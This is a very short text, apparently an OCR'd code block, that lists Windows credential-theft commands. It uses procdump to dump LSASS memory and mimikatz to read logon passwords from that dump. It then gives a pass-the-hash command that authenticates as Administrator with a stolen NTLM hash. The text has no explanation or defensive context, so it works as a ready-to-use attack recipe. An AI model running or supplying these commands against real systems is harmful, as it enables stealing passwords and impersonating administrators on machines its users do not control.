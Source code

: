 procdump64.exe  -accepteula  -ma lsass.exe lsass.dmp

mimikatz # sekurlsa::minidump lsass.dmp
Switch to MINIDUMP
mimikatz # sekurlsa::logonPasswords full

sekurlsa::pth    /user:Administrator     /domain:localhost /ntlm:<here you put NT Hash>
